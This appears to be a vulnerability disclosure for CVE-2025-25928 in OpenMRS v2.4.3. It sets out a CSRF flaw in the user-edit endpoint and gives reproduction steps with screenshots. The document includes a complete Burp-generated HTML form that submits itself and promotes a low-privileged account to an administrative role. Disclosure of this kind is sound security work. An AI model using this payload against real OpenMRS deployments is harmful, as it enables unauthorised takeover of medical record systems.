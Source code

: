 # CVE-2025-25928

---

## CSRF PrivEsc


OpenMRS v2.4.3 Build 0ff0ed allows attackers to to execute arbitrary operations via a crafted CSRF PoC. In this case, an attacker could elevate a low-privileged account to an administrative role by leveraging the CSRF vulnerability at the /openmrs/admin/users/user.form endpoint


* Vulnerable Endpoint: /openmrs/admin/users/user.form endpoint
* CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost:8080/openmrs/admin/users/user.form" method="POST">
      <input type="hidden" name="userId" value="11" />
      <input type="hidden" name="person&#95;id" value="12" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;givenName" value="lowPriv" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;middleName" value="" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;familyName" value="" />
      <input type="hidden" name="person&#46;gender" value="M" />
      <input type="hidden" name="username" value="lowPriv" />
      <input type="hidden" name="userFormPassword" value="Test123&#33;" />
      <input type="hidden" name="confirm" value="Test123&#33;" />
      <input type="hidden" name="roleStrings" value="System&#32;Developer" />
      <input type="hidden" name="secretQuestion" value="" />
      <input type="hidden" name="secretAnswer" value="" />
      <input type="hidden" name="property" value="loginAttempts" />
      <input type="hidden" name="value" value="0" />
      <input type="hidden" name="property" value="lockoutTimestamp" />
      <input type="hidden" name="value" value="" />
      <input type="hidden" name="action" value="Save&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### Steps to reproduce:

1.) Observe the user lowPriv has the role anonymous:

![image](https://github.com/user-attachments/assets/e1a29395-569a-4e36-9a89-c3091e98bdc8)


lowPriv user:

![image](https://github.com/user-attachments/assets/de5cf873-a859-4bf2-8794-cdf03cf9cfbb)


2.) Execute the following CSRF PoC within the Admin users browser, and observe the lowPriv user is now an Admin.

![image](https://github.com/user-attachments/assets/4ba958e2-99e0-48f4-b8ef-9c1f47d90e70)

lowPriv user accessing Admin:

![image](https://github.com/user-attachments/assets/95917905-5878-4bf3-b431-7193e178f73a)


NOTE: sign in / out of the application as the LowPriv user for the changes to take affect 





